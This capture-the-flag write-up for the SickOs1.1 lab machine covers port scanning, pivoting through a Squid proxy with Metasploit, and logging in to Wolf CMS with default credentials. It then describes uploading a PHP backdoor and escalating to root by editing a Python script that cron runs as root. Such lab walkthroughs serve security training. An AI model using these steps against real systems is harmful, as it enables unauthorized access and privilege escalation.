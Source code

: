 # SickOs1.1 Writeup

## Recon

### Port scanning

``` bash
PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 5.9p1 Debian 5ubuntu1.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 09:3d:29:a0:da:48:14:c1:65:14:1e:6a:6c:37:04:09 (DSA)
|   2048 84:63:e9:a8:8e:99:33:48:db:f6:d5:81:ab:f2:08:ec (RSA)
|_  256 51:f6:eb:09:f6:b3:e6:91:ae:36:37:0c:c8:ee:34:27 (ECDSA)
3128/tcp open   http-proxy Squid http proxy 3.1.19
|_http-server-header: squid/3.1.19
|_http-title: ERROR: The requested URL could not be retrieved
8080/tcp closed http-proxy
```
Seems port 3128 has a squid proxy open. This might allow for proxy pivoting to scan the internal network

```
msfconsole
use auxiliary/scanner/http/squid_pivot_scanning
set RHOSTS <IP>
set RPORT 3128
set RANGE <IP>
run
```

this does an internal port scan and returns

```
[+] [IP] IP is alive but 21 is CLOSED
[+] [IP] IP:80 seems OPEN
[+] [IP] IP is alive but 139 is CLOSED
[+] [IP] IP is alive but 445 is CLOSED
[+] [IP] IP is alive but 1433 is CLOSED
[+] [IP] IP is alive but 1521 is CLOSED
[+] [IP] IP is alive but 1723 is CLOSED
[+] [IP] IP is alive but 3389 is CLOSED
[+] [IP] IP is alive but 8080 is CLOSED
[+] [IP] IP is alive but 9100 is CLOSED
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

This shows that the proxy is able to connect to the internal 80 port. 
Let's see what is hosted there by setting our proxy to the virtual machine

![](OSCPblehh.png)

It seems like there is something here. The next step is to do some directory busting

``` bash
dirb <ip> 
```

this returns:

```
---- Scanning URL: http://<IP>/ ----
+ http://<IP>/cgi-bin/ (CODE:403|SIZE:290)                                     
+ http://<IP>/connect (CODE:200|SIZE:109)                                      
+ http://<IP>/index (CODE:200|SIZE:21)                                         
+ http://<IP>/index.php (CODE:200|SIZE:21)                                     
+ http://<IP>/robots (CODE:200|SIZE:45)                                        
+ http://<IP>/robots.txt (CODE:200|SIZE:45)                                    
+ http://<IP>/server-status (CODE:403|SIZE:295) 
```

Let's look in robots.txt to see if there are any directories we've missed

```
User-agent: *
Disallow: /
Dissalow: /wolfcms
```

seems like there is a /wolfcms we haven't found. it looks like this

![](OSCPwolfcms.png)

Looks like a content management system. The admin login page for wolfcms is located at
http://<IP>/wolfcms/?/admin/login

by trying some simple admin login credentials like "admin admin" we can login to the admin account.

by going to the article list we can see an article that contains php code. This probably means that the php code get's executed and might allow us to create a shell. By uploading a php file (which we can do as admin) we can upload a php backdoor to the /public folder.

now that we have our shell we can do some recon on the machine.

```
whoami
www-data
```

If we check /etc/cron.d/automate we can see that it contains

```
* * * * * root /usr/bin/python /var/www/connect.py
```

This means it executes a file as root in /var/www. since we are www-data we are able to write in that directory. This means we can edit the connect.py file to execute any piece of code we want.
This way we can read the flag by writing the python code

```
f = open("/root/a0216ea4d51874464078c618298b1367.txt")
f2 = open("/var/www/flag.txt", 'w')
f2.write(f.read())
```

After a little wait it creates a flag.txt file that we can read with the contents:

```
If you are viewing this!!

ROOT!

You have Succesfully completed SickOS1.1.
Thanks for Trying
```